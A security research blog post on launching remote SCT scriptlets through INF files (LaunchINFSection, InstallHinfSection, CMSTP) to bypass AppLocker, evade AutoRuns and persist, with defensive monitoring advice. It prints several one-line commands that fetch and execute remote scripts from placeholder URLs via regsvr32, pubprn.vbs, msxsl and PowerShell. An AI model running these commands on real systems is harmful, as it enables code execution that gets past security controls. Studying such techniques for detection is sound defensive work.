 # Leveraging INF-SCT Fetch & Execute Techniques For Bypass Applocker, Evasion, & Persistence

### Introduction

Over the last few weeks, I researched and tested a few interesting namespaces/methods documented on various Microsoft/MSDN sources that dealt with executing various COM scripts/scriptlets (e.g. VBscript, Jscript, etc.). In particular, I was curious to see if there were potentially new ways to invoke remote scripts (ActiveX Objects) by leveraging some of the great research already performed and documented by [@subTee](https://twitter.com/subTee), [@Oddvarmoe](https://twitter.com/Oddvarmoe), [@ItsReallyNick](https://twitter.com/ItsReallyNick), [@KyleHanslovan](https://twitter.com/KyleHanslovan), [@ChrisBisnett](https://twitter.com/chrisbisnett), and [@NickTyrer](https://twitter.com/NickTyrer). There were some interesting findings, but the one that really stood out was the discovery of **LaunchINFSection**, a ‘new’ method to remotely launch staged SCT files configured within INF files.

In this post, we’ll discuss several known INF-SCT launch methods, introduce LaunchINFSection, and dive into use cases/defensive considerations. Additionally, we’ll reference other techniques for remote script/scriptlet execution.

### INF-SCT Launch Methods

Methods for launching script component files (‘.sct’) via INF configuration files include InstallHinfSection (setupapi.dll), CMSTP, and LaunchINFSection (advpack.dll). Let’s dive in…

**Malicious INF-SCT Usage with InstallHinfSection**

At [DerbyCon](https://twitter.com/DerbyCon) 2017, @KyleHanslovan and @ChrisBisnett of [@HuntressLabs](https://twitter.com/HuntressLabs) presented a very interesting topic – [Evading AutoRuns](https://github.com/huntresslabs/evading-autoruns/blob/master/Evading\_Autoruns\_Slides.pdf). In their presentation, they showcase a method for launching remote SCT via INF by invoking InstallHinfSection with the following command:

```
rundll32.exe setupapi.dll,InstallHinfSection DefaultInstall 128 [path to file.inf]
```

Within the [source](https://raw.githubusercontent.com/huntresslabs/evading-autoruns/master/shady.inf) INF file used for remote SCT execution, ‘rundll32.exe setupapi.dll,InstallHinfSection’ calls the default INF section (‘DefaultInstall’). Under this section, the Unregister DLLs directive (UnregisterDlls) calls the ‘Squiblydoo’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF-SCT Usage With CMSTP**

About a month ago, @NickTyrer demonstrated on [Twitter](https://twitter.com/NickTyrer/status/958450014111633408) that INF files could be used to fetch SCT files from web resources to execute COM scripts/scriptlets using **cmstp.exe**, a utility that had been documented by @Oddvarmoe to [bypass](https://msitpros.com/?p=3960) UAC and AppLocker default policies. For reference, basic usage for cmstp.exe is as follows:

```
cmstp.exe /s [file].inf
```

Within the [source](https://twitter.com/NickTyrer/status/958450014111633408) INF file used for remote SCT execution, cmstp.exe calls the INF section named ‘DefaultInstall\_SingleUser’. Under this section, the OCX unregister directive (UnRegisterOCX) calls the ‘UnRegisterOCXSection’ section to perform the ‘malicious’ action of invoking scrobj.dll to fetch and run the SCT script file.

**Malicious INF/SCT Usage With LaunchINFSection**

According to Microsoft [documentation](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/gg441316\(v=vs.85\)), LaunchINFSection is a method within the Advanced INF Package Installer (advpack.dll) that is used to invoke a particular section within a setup information (.inf) file. In the administrative sense, INF files are typically used as an instruction file for the installation of device drivers and/or Windows Cabinet (.cab) files, which may include registering Windows binaries (exe, dll, ocx), adding keys to the registry, and/or specifying critical parameter settings. The general method for LaunchINFSection invocation is as follows:

```
rundll32.exe advpack.dll,LaunchINFSection [file].inf,[INF Section],[Path to Cab].cab,[Installation Flags]
```

If the \[INF Section] is not specified, LaunchINFSection will attempt to call **DefaultInstall** for the default section. Additionally, it is worth noting that the Advanced INF Package Installer also contains the function **LaunchINFSectionEx** as well as other character set comparability functions (e.g. LaunchINFSectionA), which effectively do the same thing as LaunchINFSection.

For proof of concept, we can simply [modify](https://gist.githubusercontent.com/bohops/693dd4d5dbfb500f1c3ace02622d5d34/raw/902ed953a9188b27e91c199b465cddf855c7b94f/test.inf) the INF file used by @NickTyrer with a staged SCT script payload found [here](https://gist.githubusercontent.com/bohops/6ded40c4989c673f2e30b9a6c1985019/raw/33dc4cae00a10eb86c02b561b1c832df6de40ef6/test.sct) (big shout out to @subTee and [@redcanaryco](https://twitter.com/redcanaryco) for providing their AtomicRedTeam scripts and many useful test payloads to the community). Let’s download the modified INF to the ‘target’ (test.inf) and invoke LaunchINFSection (using a placeholder value of ‘1’ for our non-existant cab file) with the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,DefaultInstall_SingleUser,1,
```

As shown in the following screenshot, our INF-SCT-Calc Scriptet payload was successfully launched:

![.gitbook/assets/1663788152.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788151/qylykwczyksqwrnfsh41.png)

Take note that we can also launch our payload in other, slightly different ways. If we change the INF file entry point section to ‘DefaultInstall’, we can launch our payload without section specification using the following command:

```
rundll32.exe advpack.dll,LaunchINFSection test.inf,,1,
```

The same payload is successfully launched:

![.gitbook/assets/1663788153.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788152/eo1jjqgs7o3nmwqicnwi.png)

Additionally, we can change the OCX unregister directive to a register directive (‘RegisterOCXs’) and supply a random name (e.g. ‘MoreFun’) to invoke the same payload:

![.gitbook/assets/1663788154.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788154/ahgm1ihkcr7sn6fee2ie.png)

### Some Use Cases & Defensive Considerations

In addition to the environmental considerations above, defenders should keep an eye out for these:

**Malware**

In the wild, actors have leveraged malware INF payloads. @ItsReallyNick discovered several [malware samples](https://twitter.com/ItsReallyNick/status/958789644165894146) that actually took advantage of @NickTyrer’s CMSTP technique a few years ago. Other samples show malware from the early 2000s that appear to take advantage of more native administrative techniques using LaunchINFSection without INF-SCT execution.

![.gitbook/assets/1663788155.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788155/dzq6t3vfbqyytm1vheji.png)

![.gitbook/assets/1663788157.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788156/flcmp37w0oiqcynb6kkh.png)

**Bypass, Evasion, & Persistence**

In addition to [bypassing](https://msitpros.com/?p=3960) Operating System security controls such as Application Whitelisting and User Account Control, CMSTP can be used for AutoRuns evasion and persistence. Here is a screenshot that does not show CMSTP when the ‘Hide Windows Entries’ flag is enabled within AutoRuns:

![.gitbook/assets/1663788158.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788157/hwqfkenzb9hgdnl544zl.png)

Here is a screenshot with CMSTP present without any filtering:

![.gitbook/assets/1663788159.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788159/y0up0dt6fuuxdrotlkmp.png)

\*Note: LaunchINFSection and InstallHinfSection do not appear to be evasive candidates for (newer) versions of AutoRuns because these methods rely on rundll32.exe to invoke the respective dll. These methods are not filtered after hiding Windows and Microsoft entries. However, LaunchINFSection proves to be a valid application whitelisting bypass technique as we were able to “gain code execution” against [default](https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/) AppLocker rules.

**On the Network**

Hopefully, network analysis is still important these days. Here is a sample GET request invoked by scrobj.dll to fetch a fake SCT file:

![.gitbook/assets/1663788160.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788160/i5ofsrf5rltjm8hpchdu.png)

Take note of the User-Agent. Interestingly enough, I have seen this with other Microsoft utilities that have the ability to perform such requests. These days, it may be worth treating anything that remote fetches with scrutiny (I know – easier said than done).

**Arbitrary File Names**

**Now for a kicker** – SCT files are merely text/XML files and INF files are text files. In my basic testing, these files **do not need a proper extension for invocation**. In this example, we call ‘test.notinf’ and ‘test.notsct’ to successfully execute our ‘sct’ payload:

![.gitbook/assets/1663788161.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788161/vjmfduw0ewas2c6dslxv.png)

**Other Considerations**

\*Host Monitoring is essential. If budget is a constraint, consider using [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon) (free) to feed your ([open-source](https://wazuh.com/)) SIEM. Monitor for the introduction of new “.inf” files within the environment and execution of such files with the methods described above.

\*Application Whitelisting is still essential. Default AppLocker rules are pretty much based on path constraints. As I previously [blogged](https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/) about, some of these paths do allow users to write to sub-directories in sensitive hierarchical paths. Ensure these paths are locked down. This will at least help protect against a subset of execution techniques (and hopefully alert you when an event is triggered).

\*INF execution is not the only way to invoke ‘sct’ scripts. I will blog about other methods in greater detail down the road (including some ‘new’ techniques), but here is a quick rundown of a few of them:

**RegSvr32/Scrobj.dll** \[[Reference](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md)]

```
regsvr32 /s /n /u /i:http://url/file.sct scrobj.dll
```

**PubPrn** \[[Reference](https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/)]

```
pubprn.vbs 127.0.0.1 script:http://url/file.sct
```

**Microsoft.JScript.Eval Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965085651199840258)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:http://url/file.sct").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

**Microsoft.VisualBasic.Interaction Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/965670898379476993)]

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:http://url/file.sct').Exec(0)
```

\*It is also worth noting that ‘sct’ is not the only player in the game. Here are a few other ‘remote’ XML/XSLT techniques that need to be monitored:

**MsXSL** \[[Reference](https://github.com/3gstudent/Use-msxsl-to-bypass-AppLocker)]

```
msxsl.exe http://url/file.xml http://url/file.xsl
```

**System.Xml.Xsl.XslCompiledTransform Assembly via PowerShell** \[[Reference](https://twitter.com/bohops/status/966172175555284992)]

```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('http://url/file.xsl',$s,$r);$x.Transform('http://url/file.xml','z');del z;
```

### Conclusion

Thank you for taking the time to read this blog post. I will add content as I learn more and/or capture greater insight from the community. If you have questions/comments/or notice that I left out anything important, send me an email through the \[contact]
